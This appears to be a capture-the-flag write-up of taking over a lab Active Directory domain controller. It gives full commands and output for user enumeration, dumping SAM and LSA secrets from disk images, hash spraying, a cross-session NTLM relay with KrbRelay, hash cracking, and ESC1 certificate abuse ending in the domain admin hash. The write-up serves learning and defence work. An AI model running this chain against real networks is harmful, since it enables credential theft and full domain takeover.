

# Before Starting

```console
Me > 10.8.2.163
Target > 10.10.103.65
```
```console
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```
## BruteForce users with kerbrute

```bash
nxc smb shibuya.vl -u '' -p '' --shares
SMB         10.10.103.65    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.103.65    445    AWSJPDC0522      [+] shibuya.vl\:
SMB         10.10.103.65    445    AWSJPDC0522      [-] Error enumerating shares: STATUS_ACCESS_DENIED
```
we only have an anon session which has no rights and is therefore useless, let's use kerbrute to find valid users

```bash
kerbrute userenum --domain "shibuya.vl" --dc 10.10.103.65 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 02/20/25 - Ronnie Flathers @ropnop

2025/02/20 20:36:52 >  Using KDC(s):
2025/02/20 20:36:52 >      10.10.88.157:88

2025/02/20 20:37:03 >  [+] VALID USERNAME:     purple@shibuya.vl
2025/02/20 20:37:08 >  [+] VALID USERNAME:     red@shibuya.vl
```
By deduction, we can find the password of theses users

```bash
nxc smb shibuya.vl -u 'purple' -p 'REDACTED' -k
SMB         shibuya.vl      445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\purple:REDACTED
```
```bash
nxc smb shibuya.vl -u 'purple' -p 'REDACTED' -k --shares
SMB         shibuya.vl      445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\purple:REDACTED
SMB         shibuya.vl      445    AWSJPDC0522      [*] Enumerated shares
SMB         shibuya.vl      445    AWSJPDC0522      Share           Permissions     Remark
SMB         shibuya.vl      445    AWSJPDC0522      -----           -----------     ------
SMB         shibuya.vl      445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         shibuya.vl      445    AWSJPDC0522      C$                              Default share
SMB         shibuya.vl      445    AWSJPDC0522      images$
SMB         shibuya.vl      445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         shibuya.vl      445    AWSJPDC0522      NETLOGON        READ            Logon server share
SMB         shibuya.vl      445    AWSJPDC0522      SYSVOL          READ            Logon server share
SMB         shibuya.vl      445    AWSJPDC0522      users           READ
```
## Password in description, first user

We don't have any ```WRITE``` rights, let's use ```--users``` to enumerate users :

```bash
nxc smb shibuya.vl -u 'purple' -p 'REDACTED' -k --users
SMB         shibuya.vl      445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         shibuya.vl      445    AWSJPDC0522      [+] shibuya.vl\purple:REDACTED
SMB         shibuya.vl      445    AWSJPDC0522      -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         shibuya.vl      445    AWSJPDC0522      _admin                        2025-02-15 07:55:29 0       Built-in account for administering the computer/domain
SMB         shibuya.vl      445    AWSJPDC0522      Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         shibuya.vl      445    AWSJPDC0522      krbtgt                        2025-02-15 07:24:57 0       Key Distribution Center Service Account
SMB         shibuya.vl      445    AWSJPDC0522      svc_autojoin                  2025-02-15 07:51:49 0       [REDACTED]
SMB         shibuya.vl      445    AWSJPDC0522      Leon.Warren                   2025-02-16 10:23:34 0
SMB         shibuya.vl      445    AWSJPDC0522      Graeme.Kerr                   2025-02-16 10:23:34 0
...
```
If you want to put all users in a text file, you can do it with this command : 

```bash
nxc smb shibuya.vl -u 'purple' -p 'REDACTED' -k --users | awk '/SMB/{print $5}' | grep -Ev '^-Username-|\[*\]' > users.txt
```
Ok but when we enumerate with ```--users```, it also returns every ```Description``` of each user and ```svc_autojoin``` have his password in his description, let's check his rights on the smb

```bash
nxc smb shibuya.vl -u 'svc_autojoin' -p 'REDACTED' --shares
SMB         10.10.103.65    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.103.65    445    AWSJPDC0522      [+] shibuya.vl\svc_autojoin:REDACTED
SMB         10.10.103.65    445    AWSJPDC0522      [*] Enumerated shares
SMB         10.10.103.65    445    AWSJPDC0522      Share           Permissions     Remark
SMB         10.10.103.65    445    AWSJPDC0522      -----           -----------     ------
SMB         10.10.103.65    445    AWSJPDC0522      ADMIN$                          Remote Admin
SMB         10.10.103.65    445    AWSJPDC0522      C$                              Default share
SMB         10.10.103.65    445    AWSJPDC0522      images$         READ
SMB         10.10.103.65    445    AWSJPDC0522      IPC$            READ            Remote IPC
SMB         10.10.103.65    445    AWSJPDC0522      NETLOGON        READ            Logon server share
SMB         10.10.103.65    445    AWSJPDC0522      SYSVOL          READ            Logon server share
SMB         10.10.103.65    445    AWSJPDC0522      users           READ
```
Ok nice, we can now read a new share, let's check ```images$```

```console
# use images$
# ls
drw-rw-rw-          0  Wed Feb 19 18:35:20 2025 .
drw-rw-rw-          0  Wed Feb 19 13:59:37 2025 ..
-rw-rw-rw-    8264070  Wed Feb 19 18:35:20 2025 AWSJPWK0222-01.wim
-rw-rw-rw-   50660968  Wed Feb 19 18:35:20 2025 AWSJPWK0222-02.wim
-rw-rw-rw-   32065850  Wed Feb 19 18:35:20 2025 AWSJPWK0222-03.wim
-rw-rw-rw-     365686  Wed Feb 19 18:35:20 2025 vss-meta.cab
```
## Secretdumps locally

There is 3 .wim files

We can download them and mount them to watch their contents

(Note : A .wim (Windows Imaging Format) file is a disk image format used primarily by Windows)

```bash
mkdir /mnt/wim1
mkdir /mnt/wim2
mkidr /mnt/wim3

wimmount AWSJPWK0222-01.wim /mnt/wim1
wimmount AWSJPWK0222-02.wim /mnt/wim2
wimmount AWSJPWK0222-03.wim /mnt/wim3
```
Grab ```SYSTEM```, ```SAM``` and ```SECURITY```

```SAM```, ```SECURITY```, and ```SYSTEM``` files are critical databases distributed across a DC or Windows machine. They contain sensitive information, including users, passwords and security policies

We can therefore use secretdumps locally on it to extract information

```bash
secretsdump -sam SAM -system SYSTEM  -security SECURITY LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x2e971736685fc53bfd5106d471e2f00f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8dcb5ed323d1d09b9653452027e8c013:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9dc1b36c1e31da7926d77ba67c654ae6:::
operator:1000:aad3b435b51404eeaad3b435b51404ee:5...50:::
[*] Dumping cached domain logon information (domain/username:hash)
SHIBUYA.VL/Simon.Watson:$DCC2$10240#Simon.Watson#04b20c71b23baf7a3025f40b3409e325: (2025-02-16 11:17:56)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:2f006b004e0045004c0045003f0051005800290040004400580060005300520079002600610027002f005c002e002e0053006d0037002200540079005e0044003e004e0056005f00610063003d00270051002e00780075005b0075005c00410056006e004200230066004a0029006f007a002a005700260031005900450064003400240035004b0079004d006f004f002100750035005e0043004e002500430050006e003a00570068005e004e002a0076002a0043005a006c003d00640049002e006d005a002d002d006e0056002000270065007100330062002f00520026006b00690078005b003600670074003900
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1fe837c138d1089c9a0763239cd3cb42
[*] DPAPI_SYSTEM
dpapi_machinekey:0xb31a4d81f2df440f806871a8b5f53a15de12acc1
dpapi_userkey:0xe14c10978f8ee226cbdbcbee9eac18a28b006d06
[*] NL$KM
 0000   92 B9 89 EF 84 2F D6 55  73 67 31 8F E0 02 02 66   ...../.Usg1....f
 0010   F9 81 42 68 8C 3B DF 5D  0A E5 BA F2 4A 2C 43 0E   ..Bh.;.]....J,C.
 0020   1C C5 4F 40 1E F5 98 38  2F A4 17 F3 E9 D9 23 E3   ..O@...8/.....#.
 0030   D1 49 FE 06 B3 2C A1 1A  CB 88 E4 1D 79 9D AE 97   .I...,......y...
NL$KM:92b989ef842fd6557367318fe0020266f98142688c3bdf5d0ae5baf24a2c430e1cc54f401ef598382fa417f3e9d923e3d149fe06b32ca11acb88e41d799dae97
```
We can spray the operator NT hash

```bash
nxc smb shibuya.vl -u users.txt -H '5d...50' --continue-on-success

[+] shibuya.vl\Simon.Watson:5d...50
```
```NOTE : Grab the first flag on the smb /users/simon.watson/desktop/flag.txt```

## SSH Access

Now if we want to ssh, we need to change his password thanks to the hash

```bash
changepasswd.py shibuya.vl/'Simon.Watson'@10.10.103.65 -hashes :'5d..50' -newpass 'Toto01!'
```
Then i make a socks proxy with ssh to be sure i can access everything

```bash
ssh -D 1080 Simon.Watson@10.10.103.65
```
I also run ```SharpHound``` to have a ```Bloodhound```

## Cross Session Relay

The only interesting thing you can see on ```bloodhound``` is this :

 

Let's check it on our shell

```powershell
./runas.exe 'svc_autojoin' 'REDACTED' qwinsta -l 9

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 rdp-tcp#0         nigel.mills               1  Active
 console                                     2  Conn
 31c5ce94259d4...                        65536  Listen
 rdp-tcp                                 65537  Listen
```
Seeing this i directly thought about [absolute](https://0xdf.gitlab.io/2023/05/27/htb-absolute.html#krbrelay-background) or [rebound](https://0xdf.gitlab.io/2024/03/30/htb-rebound.html#cross-session-relay)

I'll let you see how it works using the 2 write ups that i put because my english is really bad lol

So i used [krbrelayx](https://github.com/cube0x0/KrbRelay) because i think ```RemotePotat0``` was a bit patched

```powershell
./runas.exe 'svc_autojoin' 'REDACTED' -l 9 "c:\temp\KrbRelay.exe -ntlm -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4"

[*] Auth Context: SHIBUYA\nigel.mills
[*] Rewriting function table
[*] Rewriting PEB
[*] GetModuleFileName: System
[*] Init com server
[*] GetModuleFileName: c:\temp\KrbRelay.exe
[*] Register com server
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGgQIAAAAAAADfEVQa49rBMEsNJjZa25sGAkgAAGgN//+j1xgJE4ByISIADAAHADEAMgA3AC4AMAAuADAALgAxAAAAAAAJAP//AAAeAP//AAAQAP//AAAKAP//AAAWAP//AAAfAP//AAAOAP//AAAAAA==:

[*] Forcing cross-session authentication
[*] Using CLSID: 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4
[*] Spawning in session 1
[*] NTLM1
4e544c...2555941
[*] NTLM2
4e544...0b000000
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, ReplayDetect, SequenceDetect, UseDceStyle, Connection, AllowNonUserLogons
[*] NTLM3
Nigel.Mills::SHIBUYA:e31...000000000
```
Then we can crack the hash 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

john hash.txt --show
Nigel.Mills:REDACTED:SHIBUYA:e3...0000
```
```bash
nxc rdp shibuya.vl -u 'Nigel.Mills' -p 'REDACTED'
RDP         10.10.103.65    3389   AWSJPDC0522      [*] Windows 10 or Windows Server 2016 Build 20348 (name:AWSJPDC0522) (domain:shibuya.vl) (nla:True)
RDP         10.10.103.65    3389   AWSJPDC0522      [+] shibuya.vl\Nigel.Mills:REDACTED (admin)
```
## ADCS to win

And finally, if we enumerate ADCS, we can see this :

```bash
proxychains -q certipy find -u 'Nigel.Mills'@'AWSJPDC0522.shibuya.vl' -p 'REDACTED' -dc-ip '10.10.103.65' -vulnerable -stdout -debug

    Template Name                       : ShibuyaWeb
    Display Name                        : ShibuyaWeb
    Certificate Authorities             : shibuya-AWSJPDC0522-CA

    [!] Vulnerabilities
      ESC1                              : 'SHIBUYA.VL\\t1_admins' can enroll, enrollee supplies subject and template allows client authentication
      ESC2                              : 'SHIBUYA.VL\\t1_admins' can enroll and template can be used for any purpose
      ESC3                              : 'SHIBUYA.VL\\t1_admins' can enroll and template has Certificate Request Agent EKU set
```
As we could see on the bloodhound screen that i put a little above, ```nigel.mills``` is part of ```t1_admins group```

So let's abuse of the ```ESC1```

```bash
proxychains -q certipy req -u "Nigel.Mills@shibuya.vl" -p "REDACTED" -dc-ip "10.10.103.65" -target "AWSJPDC0522" -ca 'shibuya-AWSJPDC0522-CA' -template 'ShibuyaWeb' -upn '_admin' -key-size 4096 -sid 'S-1-5-21-87560095-894484815-3652015022-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 26
[*] Got certificate with UPN '_admin'
[*] Certificate object SID is 'S-1-5-21-87560095-894484815-3652015022-500'
[*] Saved certificate and private key to '_admin.pfx'
```
And retrieve the NT hash

```bash
proxychains -q certipy auth -pfx '_admin.pfx' -username '_admin' -domain 'shibuya.vl' -dc-ip 10.10.103.65
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: _admin@shibuya.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to '_admin.ccache'
[*] Trying to retrieve NT hash for '_admin'
[*] Got hash for '_admin@shibuya.vl': aad3b435b51404eeaad3b435b51404ee:ba...30
```
```bash
nxc smb shibuya.vl -u '_admin' -H 'ba...30'
SMB         10.10.103.65    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.103.65    445    AWSJPDC0522      [+] shibuya.vl\_admin:ba...30 (admin)
```
Nice !! If you have any questions you can dm me on discord : 'ethicxz.'
